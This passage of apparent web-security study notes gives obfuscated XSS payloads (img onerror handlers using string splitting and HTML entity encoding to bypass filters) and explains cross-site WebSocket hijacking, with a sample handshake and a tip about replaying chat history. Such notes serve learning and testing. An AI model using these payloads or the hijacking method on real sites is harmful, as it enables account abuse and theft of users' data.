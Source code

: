 ```html
<img src=0 oNeRrOr=window['ale'+'rt'](window['doc'+'ument']['dom'+'ain'])>
```

![[Brackets.png]]

Encoding may also be required on the keywords that trigger the alert:

```html
<img src=0 oNeRrOr=&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;>
```

```html
<img src=x OnErRoR=&#97;&#108;&#101;&#114;&#116;(1)>"}
```
# Cross-Site WebSocket Hijacking

Vulnerabilities arise when an attacker makes a cross-domain WebSocket connection from a site that the attacker controls - known as cross-site WebSocket hijacking attack and involves exploiting CSRF on a handshake. 

It arises when the handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values. Attackers create a web page on a domain which establishes a cross-site WebSocket connection. The app handles the connection in the context of the victim's user session.

Attacker sends arbitrary messages to the server via the connection and read the contents of messages that are received back from the server - attacker gains two-way interaction with the compromised app.

First, review the handshakes and determine if they are vulnerable. For normal conditions, you need to find a message that relies solely on cookies for session handling and does not use any tokens or unpredictable values such as:

```html
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

If vulnerable, then a cross-site request is performed to open a WebSocket and can do things like:

- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user
- Sending WebSocket messages to retrieve sensitive data
- Sometimes, just waiting for incoming messages to arrive containing sensitive data
# Cross-Site WebSocket Hijacking Exploitation

Try interacting with the bot and refreshing the page - there may be a READY command sent that grabs past messages:

![[READY message.png]]
